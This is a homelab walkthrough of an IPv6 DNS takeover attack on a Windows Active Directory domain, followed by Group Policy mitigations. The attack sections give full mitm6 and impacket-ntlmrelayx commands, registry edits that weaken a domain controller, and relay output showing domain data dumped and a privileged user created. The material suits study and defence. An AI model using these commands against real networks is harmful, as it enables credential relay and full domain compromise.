




# IPv6 DNS Takeover Attack

IPv6 DNS takeover attacks require no credentials or user interaction and can lead to full domain compromise. The key flaw we will abuse here is the fact that Windows machines prefer IPv6 by default for name resolution, even on networks only using IPv4. When a machine boots or refreshes its DHCPv6 lease, it will send out solicit messages asking for an IPv6 address and DNS server data. By acting as a rogue DNS server, we can spoof DNS responses and harvest authentication requests.

We can accomplish several goals via IPv6 takeover, including:
* Stealing user credentials and relaying them to LDAPS (Lightweight Directory Access Protocol over SSL/TLS) to authenicate to the domain
* Enumerating domain information
* Creating a new domain user

In order for a target domain to be vulnerable to IPv6 takeover, the network must:
* Have workstations with IPv6 enabled with no IPv6 network infrasrtucture configured
* Have the WPAD (Web Proxy Auto Discovery) service active
* **Not** enable or enforce LDAP channel binding and LDAP signing
* **Not** enable or enforce SMB signing

## VMs Involved in the Attack
In our scenario, we will have **three** VMs running at the same time:
* Kali Linux (later referred to as Attacker VM)
* Windows 11 user machine (Phantom or Scooby VM)
* Windows Domain Controller

### Ensuring Domain is Vulnerable to IPv6 DNS Takeover
To ensure these attacks are successful, you may need to edit your Domain Controller's SYSTEM registry hive using **Registry Editor**. 

Edit the following values of the key **HKLM\System\CurrentControlSet\Services\NTDS\Parameters**, setting them all to **0**:
* ldapEnforceChannelBinding
* LDAPServerEnforceIntegrity
* ldapserverintegrity

These registry edits disable LDAP channel binding for LDAPS (allowing for stolen credentials to be relayed to LDAPS), along with mandatory LDAP message signing.



## Attack Setup
We need two tools for this attack: [mitm6](https://www.kali.org/tools/mitm6/) and [impacket-ntlmrelayx](https://www.kali.org/tools/impacket-scripts/#impacket-ntlmrelayx).

**mitm6** acts as a rogue DNS server and responds to DHCPv6 messages, providing victim with a link-local IPv6 address and becomes the victim's default DNS server.
**impacket-ntlmrelayx** will then relay the authenication attempt to the Domain Controller's LDAPS service.

*impacket-ntlmrelayx* must be launched before *mitm6* so it can listen for connections initiated by mitm6.

## Attack 1: Dumping Domain Data
The attack has three steps:
1. Launch impacket-ntlmrelayx, specifying the target, fake WPAD authentication host, and directory to store looted data
2. Launch mitm6, specifying the AD domain and the network interface
3. Boot and/or restart the victim VM to force a DHCPv6 solicit request

Launch *impacket-ntlmrelayx* to wait for connections to relay. The full command to use is: `impacket-ntlmrelayx -6 -smb2support -t ldaps://[DOMAIN CONTROLLER IP] -wh [ROGUE WPAD HOST] -l [LOOT DIR]`. A breakdown of the options is below:
* **-6**: Listen on IPv6 
* **-smb2support**: Use SMBv2 during the attack as SMBv1 is likely rejected
* **-t**: Lists the LDAPS service of the target domain controller
* **-wh**: Serves a WPAD file for Proxy Authentication attack
* **-l**: Provides the directory where looted domain data will be stored

In my example, I used the rogue WPAD authentication host *fakewpad.meddling.local* and the loot directory *LOOTDIR*:
`impacket-ntlmrelayx -6 -smb2support -t ldaps://[DOMAIN CONTROLLER IP] -wh fakewpad.meddling.local -l LOOTDIR`

When successfully started, you should see a message **Servers started, waiting for connections**.

Then launch *mitm6* in a separate terminal window using the command `sudo mitm6 -d [DOMAIN] -i [INTERFACE]`. The **-d** option provides your AD domain name. In my example, I used: `sudo mitm6 -d meddling.local -i eth2`.

When successfully started, you should see **Starting mitm6 using the following configuration** and see IPv6 address assignments, such as **IPv6 address ... is now asasigned to mac=... host=... ipv4=...**.

Now start and/or reboot your victim VM and wait for a successful authentication connection in the *ntlmrelayx* output: **(HTTP): Authenticating connection from [DOMAIN]/[VICTIM]$@::ffff:[IP] against ldaps://[TARGET] SUCCEED**.

You should also see output containing the following:
* Enumerating relayed user's privileges. This may take a while on large domains
* Dumping domain info for first time
* Domain info dumped into lootdir!

```
[*] Servers started, waiting for connections
[*] (HTTP): Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] (HTTP): Connection from ::ffff:10.0.2.18 controlled, attacking target ldaps://10.0.2.17
[*] (HTTP): Authenticating connection from MEDDLING/PHANTOM$@::ffff:10.0.2.18 against ldaps://10.0.2.17 SUCCEED [1]
[*] ldaps://MEDDLING/PHANTOM$@10.0.2.17 [1] -> Enumerating relayed user's privileges. This may take a while on large domains
[*] (HTTP): Authenticating connection from MEDDLING/PHANTOM$@::ffff:10.0.2.18 against ldaps://10.0.2.17 SUCCEED [2]
[*] ldaps://MEDDLING/PHANTOM$@10.0.2.17 [2] -> Enumerating relayed user's privileges. This may take a while on large domains
[*] ldaps://MEDDLING/PHANTOM$@10.0.2.17 [1] -> Dumping domain info for first time
[*] ldaps://MEDDLING/PHANTOM$@10.0.2.17 [1] -> Domain info dumped into lootdir!
```

At the point **stop mitm6**. This tool should not run for extended periods of time as it can cause network outages or other unwanted behavior.

Opening your loot directory, you should see several files containing the data obtained from the domain:



## Attack 2: Creating a New Domain User
The attack has three steps:
1. Launch impacket-ntlmrelayx, specifying the target, fake WPAD authentication host, and directory to store looted data
2. Launch mitm6, specifying the AD domain and the network interface
3. On the victim VM, log in as the Domain Administrator user

The commands used to launch this attack are the exact same as the previous one:
* `impacket-ntlmrelayx -6 -smb2support -t ldaps://[DOMAIN CONTROLLER IP] -wh [ROGUE WPAD HOST] -l [LOOT DIR]`
* `sudo mitm6 -d [DOMAIN] -i [INTERFACE]`

Boot and/or restart the victim VM and log in as your Domain Administrator user. Doing this will trigger *impacket-ntlmrelayx* to attempt to create a new domain user **with essentially Domain Administrator level privileges**. If successful, your *impacket-ntlmrelayx* output should be similar to:
```
[*] Servers started, waiting for connections
[*] (HTTP): Connection from ::ffff:10.0.2.18 controlled, attacking target ldaps://10.0.2.17
[*] (HTTP): Authenticating connection from MEDDLING/ADMINISTRATOR@::ffff:10.0.2.18 against ldaps://10.0.2.17 SUCCEED [1]
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> Enumerating relayed user's privileges. This may take a while on large domains
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> User privileges found: Create user
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> User privileges found: Modifying domain ACL
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> Attempting to create user in: CN=Users,DC=MEDDLING,DC=local
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> Adding new user with username: QhFsbcxKbh and password: [PASSWORD HERE] result: OK
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> Querying domain security descriptor
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> Success! User QhFsbcxKbh now has Replication-Get-Changes-All privileges on the domain
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> Try using DCSync with secretsdump.py and this user :)
[*] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> Saved restore state to aclpwn-20261019-162248.restore
[-] ldaps://MEDDLING/ADMINISTRATOR@10.0.2.17 [1] -> New user already added. Refusing to add another
```

Again, at this point be sure to **stop mitm6**.

With each attack, a new user will be created with a randomized username and password. You can confirm this new user was created in the domain by opening the users list in the Domain Controller.

Open **Tools > Active Directory Users and Computers** and open the **Users** list nested under your domain.



## Mitigating IPv6 DNS Takeover Attacks
**1. Block DHCPv6 traffic and router advertisements if IPv6 isn't used internally**

This can be accomplished with a **Group Policy** to edit existing rules or creating new ones:
Using **gpmc.msc** we can find the exact option nested under *Computer Configuration > Policies > Windows Settings > Security Settings > Windows Defender Firewall with Advanced Security*.

Editing existing *Inbound* rules:
* Find the *Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In)* rule, open its *Properties* and in the **Action** tab, select **Block the connection**.
* Find the *Core Networking - Router Advertisement (ICMPv6-In)* rule, open its *Properties* and in the **Action** tab, select **Block the connection**.

Editing existing *Outbound* rules:
* Find the *Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPv6-Out)* rule, open its *Properties* and in the **Action** tab, select **Block the connection**.

---

Creating a new **Group Policy Object** containing the newly created firewall rules:
* **Block inbound DHCPv6 traffic**

Create a **new custom Inbound Rule** with these configurations:
1. Applies to *all programs*
2. Protocol type *UDP*
3. Local port set to *Specific Ports* 546 (DHCPv6 Client) and 547 (DHCPv6 Server)
4. Scope set to *Any* local and remote IP addresses
5. Action is *Block the connection*
6. Apply the rule to all network profiles *Domain, Private & Public*

* **Block inbound ICMPv6 router advertisements** 

Create a **new custom Inbound Rule** with these configurations:
1. Applies to *all programs*
2. Protocol type *ICMPv6*
3. Click the *Customize* button for ICMP settings and select *Router Advertisement* in the list of Specific ICMP types
4. Scope set to *Any* local and remote IP addresses
5. Action is *Block the connection*
6. Apply the rule to all network profiles *Domain, Private & Public*

* **Block outbound DHCPv6 traffic**

Create a **new custom Outbound Rule** with these configurations:
1. Applies to *All programs*
2. Protocol type *UDP*
3. Local port set to *Specific Ports* 546 (DHCPv6 Client) and 547 (DHCPv6 Server)
4. Scope set to *Any* local and remote IP addresses
5. Action is *Block the connection*
6. Apply the rule to all network profiles *Domain, Private & Public*

**2. Disable WPAD across the network**

This can also be accomplished with a **Group Policy**. Using **gpmc.msc** we can find the exact option nested under *Computer Configuration > Preferences > Windows Settings > Registry*.

We will disable Web Proxy Auto-Discovery while keeping the service WinHttpAutoProxySvc enabled. Disabling the service may cause network adapters to fail.

Add a new *Registry Item* with these configurations:
1. Action is *Create* if they key does not exist, *Update* if the key exists
2. Hive is *HKEY_LOCAL_MACHINE*
3. Key path is *SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\WinHttp*
4. Value name is *DisableWpad* (or similar)
5. Value type is *REG_DWORD*
6. Value data is *1*



**3. Enable and enforce LDAP server/client signing and LDAP channel binding**

This can also be accomplished with a **Group Policy**. Using **gpmc.msc** we can find the exact option nested under *Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options*.

To enable LDAP server signing, find the policy **Domain controller: LDAP server signing requirements** and double-click it to start configuring the policy.

Check the *Define this policy setting* box, then in the dropdown menu select **Require signing**. 

Note: Windows Server 2025 also has a policy *Domain controller: LDAP server signing requirements Enforcement*, which you can set to **Enabled** or leave as **Not Defined** provided the other policy edits are made.

---

To enable LDAP client signing, find the policy **Network security: LDAP client signing requirements** and double-click it to start configuring the policy.

Check the *Define this policy setting* box, then in the dropdown menu select **Require signing**. 

---

To enable LDAP channel binding, find the policy **Domain controller: LDAP server channel binding token requirements** and double-click it to start configuring the policy.

Check the *Define this policy setting* box, then in the dropdown menu select **Always**. 

### Sources
* https://www.redfoxsec.com/blog/ipv6-dns-takeover-attack-explained 
